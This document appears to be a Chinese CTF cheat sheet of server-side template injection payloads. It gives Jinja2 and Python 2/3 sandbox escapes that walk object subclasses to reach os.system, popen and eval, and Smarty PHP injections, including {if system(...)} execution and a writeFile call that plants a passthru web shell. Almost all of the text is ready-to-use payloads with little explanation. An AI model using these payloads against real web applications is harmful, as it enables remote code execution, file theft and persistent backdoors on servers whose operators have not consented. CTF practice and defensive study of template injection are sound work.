 ```bash
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('<command>').read()") }}{% endif %}{% endfor %}

{{[self['\137TemplateReference\137\137context']]}} 终极过滤: \x () _ 无法rce，只能读文件
```

---
2，python2:

```bash
[].__class__.__base__.__subclasses__()[71].__init__.__globals__['os'].system('ls')

[].__class__.__base__.__subclasses__()[76].__init__.__globals__['os'].system('ls')

"".__class__.__mro__[-1].__subclasses__()[60].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')

"".__class__.__mro__[-1].__subclasses__()[61].__init__.__globals__['__builtins__']['eval']('__import__("os").system("ls")')

"".__class__.__mro__[-1].__subclasses__()[40](filename).read()

"".__class__.__mro__[-1].__subclasses__()[29].__call__(eval,'os.system("ls")')

```

---
3，python3:

```bash
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.values()[13]['eval']

"".__class__.__mro__[-1].__subclasses__()[117].__init__.__globals__['__builtins__']['eval']
```

---
4，smarty 模块 (PHP) ：

见第一届四叶草牛年ctf web-get

[smarty模块注入详解](https://blog.csdn.net/qq_45521281/article/details/107556915)

漏洞确认(查看smarty的版本号)：
```bash
 {$smarty.version}
```
常规 （使用{php}{/php}标签来执行被包裹其中的php指令，smarty3弃用）：
```bash
 {php}phpinfo;{/php}
```
Php5可用，php7弃用：
```bash
 <script language="php">phpinfo();</script>
```
通用，{if} 标签：
```bash
 {if phpinfo()}{/if}
 {if system('ls')}{/if}
 {if system('cat /flag')}{/if}
 {Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```

---